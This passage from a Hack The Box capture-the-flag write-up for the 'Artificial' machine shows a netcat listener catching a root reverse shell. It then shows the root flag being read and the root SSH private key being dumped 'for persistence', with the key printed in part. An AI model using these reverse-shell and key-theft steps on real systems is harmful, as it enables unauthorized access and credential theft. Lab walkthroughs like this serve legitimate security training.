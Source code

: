 
Before submitting, make sure to set up a listener:

```bash
nc -lvnp 4444
```

On submitting, we get a shell on the listener.

```
┌──(kali㉿kali)-[~/HTB-machine/artificial/writeup]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.148.48] 40162
bash: cannot set terminal process group (4252): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd /root 
cd /root
root@artificial:~# ls -la
ls -la
total 36
drwx------  6 root root 4096 Jun 23 07:46 .
drwxr-xr-x 18 root root 4096 Mar  3 02:50 ..
lrwxrwxrwx  1 root root    9 Jun  9 09:37 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  4 root root 4096 Mar  3 21:52 .cache
drwxr-xr-x  3 root root 4096 Oct 19  2024 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
lrwxrwxrwx  1 root root    9 Oct 19  2024 .python_history -> /dev/null
-rw-r-----  1 root root   33 Jun 23 07:46 root.txt
drwxr-xr-x  2 root root 4096 Jun  9 13:57 scripts
drwx------  2 root root 4096 Mar  4 22:40 .ssh
root@artificial:~# cat root.txt
cat root.txt
**********288e0e5e2837e070b2f734
```

Saving the id_rsa for persistence

```
root@artificial:~/.ssh# ls 
ls
authorized_keys
id_rsa
root@artificial:~/.ssh# cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5dXD22h0xZcysyHyRfknbJXk5O9tVagc1wiwaxGDi+eHE8vb5/Yq
2X2jxWO63SWVGEVSRH61/1cDzvRE2br3GC1ejDYfL7XEbs3vXmb5YkyrVwYt/G/5fyFLui
NErs1kAHWBeMBZKRaSy8VQDRB0bgXCKqqs/yeM5pOsm8RpT/jjYkNdZLNVhnP3jXW+k0D1
Hkmo6C5MLbK6X5t6r/2gfUyNAkjCUJm6eJCQgQoHHSVFqlEFWRTEmQAYjW52HzucnXWJqI
4qt2sY9jgGo89Er72BXEfCzAaglwt/W1QXPUV6ZRfgqSi1LmCgpVQkI9wcmSWsH1RhzQj/
MTCSGARSFHi/hr3+M53bsmJ3zkJx0443yJV7P9xjH4I2kNWgScS0RiaArkldOMSrIFymhN
xI4C2LRxBTv3x1mzgm0RVpXf8dFyMfENqlAOEkKJjVn8QFg/iyyw3XfOSJ/Da1HFLJwDOy
1jbuVzGf9DnzkYSgoQLDajAGyC8Ymx6HVVA49THRAAAFiIVAe5KFQHuSAAAAB3NzaC1yc2
EAAAGBAOXVw9todMWXMrMh8kX5J2yV5OTvbVWoHNcIsGsRg4vnhxPL2+f2Ktl9o8Vjut0l
lRhFUkR+tf9XA870RNm69xgtXow2Hy+1xG7N715m+WJMq1cGLfxv+X8hS7ojRK7NZAB1gX
jAWSkWksvFUA0QdG4FwiqqrP8njOaTrJvEaU/442JDXWSzVYZz9411vpNA9R5JqOguTC2y
ul+beq/9oH1MjQJIwlCZuniQkIEKBx0lRapRBVkUxJkAGI1udh87nJ11iaiOKrdrGPY4Bq
PPRK+9gVxHwswGoJcLf1tUFz1FemUX4KkotS5goKVUJCPcHJklrB9UYc0I/zEwkhgEUhR4
v4a9/jOd27Jid85CcdOON8iVez/cYx+CNpDVoEnEtEYmgK5JXTjEqyBcpoTcSOAti0cQU7
98dZs4JtEVaV3/HRcjHxDapQDhJCiY1Z/EBYP4sssN13zkifw2tRxSycAzstY27lcxn/Q5
85GEoKECw2owBsgvGJseh1VQOPUx0QAAAAMBAAEAAAGAKpBZEkQZBBLJP+V0gcLvqytjVY
aFwAw/Mw+X5Gw86Wb6XA8v7ZhoPRkIgGDE1XnFT9ZesvKob95EhUo1igEXC7IzRVIsmmBW
PZMD1n7JhoveW2J4l7yA/ytCY/luGdVNxMv+K0er+3EDxJsJBTJb7ZhBajdrjGFdtcH5gG
tyeW4FZkhFfoW7vAez+82neovYGUDY+A7C6t+jplsb8IXO+AV6Q8cHvXeK0hMrv8oEoUAq
```
